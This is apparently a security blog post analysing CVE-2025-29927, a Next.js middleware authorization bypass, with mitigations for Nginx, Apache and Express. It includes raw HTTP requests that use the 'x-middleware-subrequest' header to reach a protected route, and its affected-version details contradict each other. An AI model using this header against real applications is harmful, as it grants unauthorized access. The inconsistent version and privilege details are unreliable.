 ```yaml
---
id: 2
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
date: "Apil 16, 2025"
category: "vulnerability"
tags: ["CVE", "VulnerabilityResearch", "InfoSec", "Exploits","TechnicalAnalysis"]
author: "Hamza Khattak"
image: "/assets/img/blog/nextjs_blog.png"
authorQuote: "Stay Vigilant, Stay Secure"
---
```


![CVE-2025-29927](/assets/img/blog/nextjs_blog.png)

### CVE-2025-29927: Next.js Middleware Authorization Bypass

### Description
Next.js, an open-source web framework developed by Vercel, powers modern React-based applications with advanced features like server-side rendering and static site generation. Recently, a critical vulnerability (CVE-2025-29927) was uncovered, allowing attackers to bypass middleware-based authorization checks. This flaw was initially discovered and analyzed by Rachid Allam (zhero). In this post, we’ll dive into the technical details of the vulnerability, explore Rachid’s research, and craft a Nuclei template to help you detect this issue across your environment.

The vulnerability impacts Next.js middleware, a key feature often used to enforce authorization, rewrite paths, handle server-side redirects, and apply response headers like Content Security Policy (CSP).

By exploiting this flaw, an attacker can completely bypass middleware logic simply by adding a malicious `x-middleware-subrequest` HTTP header to their requests.


### Technical Breakdown

- **Affected Software**: Next.js  
- **Affected Versions**: 1.11.4 - 12.3.5, 13.5.9, 14.2.25, and 15.2.3  
- **CVSSv3.1 Score**: 9.1 (Critical)  
- **CVSSv3.1 Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N`  
- **Affected Component**: Middleware  
- **Attack Vector**: Network  
- **Privileges Required**: Low (API Access)  
- **User Interaction**: None  
- **Scope**: Unchanged  

The vulnerability affects Next.js versions 11.1.4 through 13.5.6, as well as 14.x before 14.2.25 and 15.x before 15.2.3. The implications are severe for applications that depend on middleware for access control, as this can lead to unauthorized access to protected routes or resources—without authentication.

### Affected Component Analysis

In Next.js applications, middleware plays a critical role in handling tasks like authentication, logging, and security enforcement for all incoming requests. CVE-2025-29927 stems from how Next.js improperly processes the x-middleware-subrequest header internally.

Here's how the vulnerability works at the code level:javascript


```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  }
  continue;
}
```

The x-middleware-subrequest header is a special internal flag used by Next.js to signal that a request was generated within the framework itself specifically, as a subrequest triggered by middleware, not as a direct client request. This mechanism is essential for the proper functioning of Next.js features and helps prevent infinite middleware recursion by keeping track of internal calls.

![nextjs_blog_0.png](/assets/img/blog/nextjs_blog_0.png)

However, this internal trust in the presence of the header introduces a serious flaw: attackers can craft requests that include this header, tricking Next.js into treating them as internal. As a result, middleware logic such as authentication checks can be completely bypassed.


### Exploitation Techniques

The method of exploitation slightly differs depending on the version of Next.js being used:

| **Next.js Version**       | **Middleware Naming/Location**                                | **Header Format (x-middleware-subrequest)**                                      |
|---------------------------|---------------------------------------------------------------|----------------------------------------------------------------------------------|
| **Prior to 12.2**          | `_middleware.ts` in `pages` folder                            | `pages/_middleware`                                                              |
| **Nested Routes (Prior to 12.2)** | `_middleware.ts` in nested `pages` directories         | `pages/dashboard/_middleware`, `pages/dashboard/panel/_middleware`               |
| **12.2 and Later**         | `middleware.ts` (no underscore), not in `pages` folder        | `middleware`                                                                      |
| **12.2 and Later (with /src)** | `middleware.ts` inside `/src` directory                     | `src/middleware`                                                                 |
| **13.2.0 and Later**       | Same as 12.2+ but with recursion depth limit for middleware  | `middleware:middleware:middleware...` or `src/middleware:src/middleware...`      |


To illustrate the vulnerability, imagine a Next.js app with middleware that guards the `/protected` route by redirecting unauthorized users to `/login`.  
Normally request to `/protected` without proper authorization results in a redirect to `/login`.

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
Connection: keep-alive
```

**Response:**
```
HTTP/1.1 307 Temporary Redirect  
location: /  
Date: Wed, 16 Apr 2025 09:52:51 GMT  
Connection: keep-alive  
Keep-Alive: timeout=5  
Content-Length: 1  
/
```

An attacker can bypass this protection by sending a request with the appropriate header:

**Request:**
```
GET /protected HTTP/1.1  
Host: 192.168.44.201:3000  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36  
x-middleware-subrequest: middleware  
Connection: keep-alive
```

**Response:**
![nextjs_blog_1.png](/assets/img/blog/nextjs_blog_1.png)

By including a specific header, the request bypasses the middleware’s authorization logic entirely and proceeds straight to /protected, giving the attacker unauthorized access to restricted content.


### Mitigation Strategies

1. **Upgrade to a Patched Version**
The most effective mitigation is to upgrade to a secure version of Next.js where this vulnerability has been fixed.

Patched versions:
- 12.3.5
- 13.5.9
- 14.2.25
- 15.2.3

Upgrading ensures the issue is resolved at the framework level without requiring manual workarounds.

If upgrading is not immediately feasible, apply the following temporary mitigations:

#### 2. Strip the Header at the Load Balancer

If your application is behind a load balancer (e.g., AWS ELB, Cloudflare), configure it to remove the `x-middleware-subrequest` header from all incoming traffic.

#### 3. Configure Web Server to Remove the Header

**Nginx**  
Add this to your server block to strip the header:

```nginx
proxy_set_header x-middleware-subrequest "";
```

**Apache (mod_headers)**  
Use this directive to unset the header:

```apache
RequestHeader unset x-middleware-subrequest
```

#### 4. Custom Server Middleware (e.g., Express)

If you're using a custom server with Express, strip the header before it reaches Next.js:

```javascript
app.use((req, res, next) => {
  delete req.headers['x-middleware-subrequest'];
  next();
});
```


### References

- [GitHub Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)  
- [Proof of Concept GitHub Repo](https://github.com/mhamzakhattak/CVE-2025-29927)
- [Next.js Middleware Documentation](https://nextjs.org/docs/app/building-your-application/routing/middleware)  
- [Original Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)  

---
